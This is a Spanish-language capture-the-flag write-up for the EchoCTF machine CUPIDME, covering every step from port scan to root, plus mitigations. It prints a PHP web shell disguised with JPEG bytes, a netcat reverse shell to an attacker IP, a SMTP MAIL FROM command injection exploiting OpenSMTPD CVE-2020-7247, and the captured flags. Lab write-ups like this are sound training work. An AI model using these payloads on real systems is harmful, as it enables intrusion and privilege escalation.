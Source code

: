 


![cupidme1](cupidme1.png)

## Introducción

La máquina **CUPIDME** de EchoCTF simula ser un servidor web dedicado al hospedaje de imágenes, pero presenta múltiples fallos de seguridad que permiten obtener acceso no autorizado, ejecutar código malicioso y escalar privilegios. Su descripción menciona que la seguridad de esta máquina es "tan imaginaria como Cupido", lo cual resulta ser cierto.

**IP:** `10.0.30.187`

---

## Reconocimiento y Escaneo

Iniciamos con un escaneo de puertos usando RustScan:

```bash
rustscan -a 10.0.30.187
```

Resultado:

```
80/tcp open http
```

Solo se encuentra abierto el puerto 80, que aloja un sitio web. Al visitar `http://10.0.30.187`, se presenta una página que simula ser un servicio para subir imágenes.

---

## Análisis del Código Fuente

En el código HTML se encuentra un formulario comentado que permite subir imágenes:

```html
<!--<form action="upload.php" method="post" enctype="multipart/form-data">
  Select image to upload:<br/>
  <input type="file" name="image" id="image">
  <input type="submit" value="Upload Image" name="submit">
</form>-->
```

Al descomentar y habilitar este formulario (manualmente o mediante herramientas), aparece la funcionalidad de subida de archivos.

Al intentar subir una imagen cualquiera, el sitio responde:

```
Mimetype not allowed, please upload an image/jpeg file.
```

Luego de eso, al subir una imagen JPEG, el servidor arroja otro error:

```
The maximum file size supported is 39 bytes.
```

### Explicación técnica:

- **Mimetype**: es el tipo de contenido definido por el encabezado HTTP del archivo. En este caso, el servidor solo permite archivos con mimetype `image/jpeg`.
- **Limitación de tamaño**: restringe archivos a 39 bytes, lo cual representa un reto para subir código malicioso.

---

## Bypass de Validaciones y RCE

Para evadir ambos filtros, se crea un archivo PHP que simule ser una imagen JPEG:

```bash
echo -n -e '\xFF\xD8\xFF\xE0' > revershell.php
```

Luego se edita con:

```php
<?=\`$_GET[0]\`?>
```

Este payload permite ejecutar comandos desde la URL usando el parámetro `0`. El archivo se sube exitosamente y queda disponible en:

```
http://10.0.30.187/images/revershell.php
```

Para obtener una reverse shell, se usa:

```bash
nc -lvnp 4444
```

Y se accede a la web:

```
http://10.0.30.187/images/revershell.php?0=nc 10.10.6.42 4444 -c /bin/bash
```

### Mejora de TTY

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

---

## Escalamiento de Privilegios vía SMTP

Se detecta el puerto 25 corriendo **OpenSMTPD** de manera local (`127.0.0.1:25`). Este servicio SMTP está accesible solo desde localhost y puede procesar correos manualmente.

Usamos Netcat para enviar un correo malicioso:

```bash
nc -nv 127.0.0.1 25
```

Secuencia SMTP:

```
HELO xd
MAIL FROM:<;chmod +s /bin/bash;>
RCPT TO:<root>
DATA
.
QUIT
```

Este comando activa un exploit basado en OpenSMTPD (referenciado como CVE-2020-7247 en versiones vulnerables) que permite ejecución remota al inyectar comandos dentro de campos SMTP.

Verificamos los permisos con:

```bash
ls -l /bin/bash
```

Y ejecutamos:

```bash
bash -p
```

para obtener shell como root.

---

## Extracción de Banderas

Se ejecuta el siguiente script para encontrar todas las banderas en el sistema:

```bash
cd / && (
  grep -rlE "ETSCTF_[0-9a-f]{32}" --exclude-dir=proc --exclude-dir=dev 2>/dev/null |
  while read -r f; do
    strings "$f" | grep -oE "ETSCTF_[0-9a-f]{32}" | sed "s|^|$f: |";
  done;
  strings /proc/*/environ 2>/dev/null | grep -oE "ETSCTF_[0-9a-f]{32}" | sed 's|^|/proc/*/environ: |';
  find / -name "ETSCTF_*" 2>/dev/null | grep -oE "ETSCTF_[0-9a-f]{32}" | sed 's|^|/root: |';
) | sort | uniq
```

### Banderas encontradas:

- `/proc/*/environ`: `ETSCTF_d7ccb36dd0c869476d0e31e46a9cc048`
- `/root`: `ETSCTF_fb8320c990b3e315a9983382655bac2e`
- `/etc/passwd`: `ETSCTF_e20a6a5bf097fd763539867c299ece88`
- `/etc/shadow`: `ETSCTF_34d5a93d2d4de072a935ec8c0183c6d8`
- `/usr/local/lib/.sha512sum`: `ETSCTF_fb8320c990b3e315a9983382655bac2e`
- `/var/www/html/challenge.php`: `ETSCTF_98e0d0b4ecc1a1b683487ef900694b34`
- `/var/www/html/index.php`: `ETSCTF_e4235b2b53d6ebf395d742ab95ba8b57`

---

## Identificación de Vulnerabilidades

1. **Fallo en validación de tipo de archivo y tamaño**: permite la carga de archivos arbitrarios con headers de imagen falsos.
2. **Ejecución remota vía PHP**: al permitir interpretación de archivos `.php` subidos.
3. **SMTP vulnerable (OpenSMTPD)**: procesó comandos incrustados en cabeceras de correo, permitiendo ejecutar código como root.
4. **Falta de protección sobre rutas de subida y ejecución web**.

---

## Medidas de Mitigación

- **Validación estricta del tipo de archivo**: usar validación del contenido y no solo del mimetype o extensión.
- **Evitar interpretación de scripts en carpetas de subida**: configurar el servidor para no ejecutar `.php` en carpetas como `/images/`.
- **Actualizar servicios como OpenSMTPD**: mantener todas las herramientas de red actualizadas para prevenir exploits conocidos.
- **Limitar privilegios del usuario `www-data`**: evitar acceso innecesario a servicios internos.
- **Eliminar archivos subidos automáticamente si no son verificados manualmente**.

---

**-Writeup by SheepsStealer-**
